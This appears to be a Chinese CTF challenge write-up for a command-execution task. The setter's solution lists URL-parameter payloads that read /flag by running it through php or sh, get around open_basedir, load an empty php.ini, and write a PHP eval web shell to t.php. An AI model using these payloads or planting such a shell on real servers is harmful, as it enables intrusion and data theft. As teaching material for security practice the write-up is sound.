 ## 题目名称
命令执行

## 题目描述
命令执行，你行不行。老前辈说过“最安全的系统就是什么都没有”

## 出题/解题思路
没有命令怎么执行命令

```
# 方法一、php+文件，文件内容会被当成php代码执行，相当于include
/?xbx=php /flag

/?xbx=php -h
# 方法二、指定根目录，绕过open_basedir
/?xbx=php -t / -r "include('/flag');"

# 方法三、使用空配置文件（默认配置）执行php代码
/?xbx=>php.ini
/?xbx=php -c php.ini -r "include('/flag');"

# 方法四、sh+文件，并输出错误信息（蚁剑是这个原理）
/?xbx=sh /flag 2>&1
/?xbx=sh%20/flag%202>%261
2>&1 的意思就是将标准错误重定向到标准输出

# 其他：echo还是能用的，可以写shell但是没什么实际用处，很多函数都被禁了，如果做出来就是非预期
/?xbx=echo "<?php eval(\$_POST['t']);" > t.php
```

## flag
